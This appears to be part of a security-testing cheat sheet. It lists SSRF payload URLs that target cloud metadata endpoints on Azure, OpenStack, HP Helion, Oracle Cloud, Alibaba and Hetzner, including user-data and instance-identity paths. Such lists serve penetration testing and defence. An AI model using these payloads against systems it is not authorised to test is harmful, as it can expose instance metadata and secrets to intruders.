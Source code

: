 ### SSRF URL for Azure

Limited, maybe more exists? `https://azure.microsoft.com/en-us/blog/what-just-happened-to-my-vm-in-vm-metadata-service/`

```powershell
http://169.254.169.254/metadata/v1/maintenance
```

Update Apr 2017, Azure has more support; requires the header "Metadata: true" `https://docs.microsoft.com/en-us/azure/virtual-machines/windows/instance-metadata-service`

```powershell
http://169.254.169.254/metadata/instance?api-version=2017-04-02
http://169.254.169.254/metadata/instance/network/interface/0/ipv4/ipAddress/0/publicIpAddress?api-version=2017-04-02&format=text
```

### SSRF URL for OpenStack/RackSpace

(header required? unknown)

```powershell
http://169.254.169.254/openstack
```

### SSRF URL for HP Helion

(header required? unknown)

```powershell
http://169.254.169.254/2009-04-04/meta-data/ 
```

### SSRF URL for Oracle Cloud

```powershell
http://192.0.0.192/latest/
http://192.0.0.192/latest/user-data/
http://192.0.0.192/latest/meta-data/
http://192.0.0.192/latest/attributes/
```

### SSRF URL for Alibaba

```powershell
http://100.100.100.200/latest/meta-data/
http://100.100.100.200/latest/meta-data/instance-id
http://100.100.100.200/latest/meta-data/image-id
```

### SSRF URL for Hetzner Cloud

```powershell
http://169.254.169.254/hetzner/v1/metadata
http://169.254.169.254/hetzner/v1/metadata/hostname
http://169.254.169.254/hetzner/v1/metadata/instance-id
http://169.254.169.254/hetzner/v1/metadata/public-ipv4
http://169.254.169.254/hetzner/v1/metadata/private-networks
http://169.254.169.254/hetzner/v1/metadata/availability-zone
http://169.254.169.254/hetzner/v1/metadata/region
```
